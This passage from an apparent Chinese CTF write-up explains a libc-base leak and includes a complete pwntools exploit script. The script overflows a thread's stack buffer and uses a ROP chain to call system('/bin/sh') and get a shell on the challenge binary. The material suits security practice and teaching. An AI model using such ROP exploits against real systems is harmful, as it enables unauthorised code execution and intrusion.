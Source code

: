 > 看了官方 wp 之后发现是因为我们修改了 dtv 指针，而 system 函数又会调用到这个指针，所以导致程序 crash，直接使用 execve 即可。
>
> 不过，这也算一个不错的计算 libc_base 的经验

在拿到 libc_base 之后再进行溢出，即使程序 crash，我们也已经进入了 system("/bin/sh")，可以成功拿到 flag。

exp:

```python
from pwn import *

context.log_level = 'DEBUG'
context.arch = 'amd64'
context.os = 'linux'

sh = process('./a.out')
# sh = remote('chuj.top', 38068)
elf = ELF('./a.out')
libc = ELF('./libc-2.31.so')

pop_rdi_ret_addr = 0x401363
test_thread_addr = elf.sym['test_thread']
ret_addr = 0x040101a

offset = 2152  # 2152, 216

payload = b'A'*(0x20)

sh.sendline(payload)
sh.recvline()
b = u64(sh.recvuntil(b'\x0a', drop=True).ljust(8, b'\x00'))
b = str(hex(b)) + '00'
b = int(b, 16)
print(hex(b))

libc_offset = 0x7f7cde389700 - 0x7f7cde38d000
libc_base = b - libc_offset
system_addr = libc_base + libc.sym['system']
bin_sh_addr = libc_base + next(libc.search(b'/bin/sh'))

gdb.attach(sh, 'b *0x401363')
payload = b'A'*(0x30-0x08)
payload += p64(0xdeadbeef)
payload += p64(0)
# payload += p64(ret_addr)
payload += p64(pop_rdi_ret_addr)
payload += p64(bin_sh_addr)
payload += p64(system_addr+3)
# payload += p64(ret_addr)
"""payload += p64(0x040135c) + p64(0) + p64(0) + p64(0) + p64(0)
payload += p64(0xe6c7e + libc_base)"""
payload += b'\x00'*(offset-len(payload)) + p64(0xdeadbeef)
sh.sendline(payload)
sh.interactive()
```
